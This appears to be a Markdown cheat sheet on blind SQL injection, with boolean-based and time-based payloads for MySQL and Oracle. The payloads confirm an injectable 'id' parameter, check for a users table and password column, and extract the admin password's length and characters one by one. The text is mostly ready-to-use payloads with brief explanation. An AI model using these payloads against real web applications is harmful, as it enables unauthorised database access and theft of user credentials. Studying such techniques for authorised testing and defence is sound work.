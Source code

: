 ## Boolean-Based Blind SQL Injection
This technique involves injecting conditions that return either **true** or **false**, observing the application's response.
#### 1. Verify Injection Point

Modify a parameter (e.g., `id`) to check if the application is vulnerable.

- **True Condition (Response is Normal):**
```sql
id=1' AND '1'='1 -- 
```
- **False Condition (Response is Different):**
```sql
id=1' AND '1'='2 -- 
```
If the response changes, the injection point is confirmed.

#### 2. Determine Table Existence

Check if a table (e.g., `users`) exists:
```sql
id=1' AND (SELECT 'a' FROM users LIMIT 1)='a --  
```
If the response is **true**, the table `users` exists.

#### 3.Determine Column Existence

Test for a specific column (e.g., `password` in `users` table):
```sql
id=1' AND (SELECT 'a' FROM users WHERE password IS NOT NULL LIMIT 1)='a --  
```
If the response is **true**, the column `password` exists.

#### 4. Extract Password Length

Use the `LENGTH()` function to find the length of the password:
```sql
id=1' AND (SELECT 'a' FROM users WHERE username='admin' AND LENGTH(password)>1)='a --  
```
Increase the number until the response turns **false**, identifying the password length.

#### 5. Extract Password Characters One by One

Use `SUBSTRING()` to retrieve each character. Example for the first character:
```sql
id=1' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a --   
```
Repeat this process for all positions to reconstruct the full password.



---


## Time-Based Blind SQL Injection

This technique introduces delays to confirm whether a condition is true.

#### 1. Verify Vulnerability with a Delay

For **MySQL** (SLEEP function):
```sql
id=1' AND SLEEP(5) --  
```
For **Oracle** (DBMS_LOCK.sleep function):
```sql
id=1' AND DBMS_LOCK.sleep(5) --  
```
If the response is **delayed**, the injection is working.

#### 2. Extract Password Length
```sql
id=1' AND IF(LENGTH(password)=10, SLEEP(5), 0) --  
```
If the delay occurs, the password is **10 characters long**.

#### 3. Extract Each Character Using Delay

For **MySQL**:
```sql
id=1' AND IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0) --  
```
For **Oracle**:
```sql
id=1' AND CASE WHEN SUBSTR(password,1,1)='a' THEN DBMS_LOCK.sleep(5) ELSE NULL END --  
```
Repeat this for each character to reconstruct the full password.
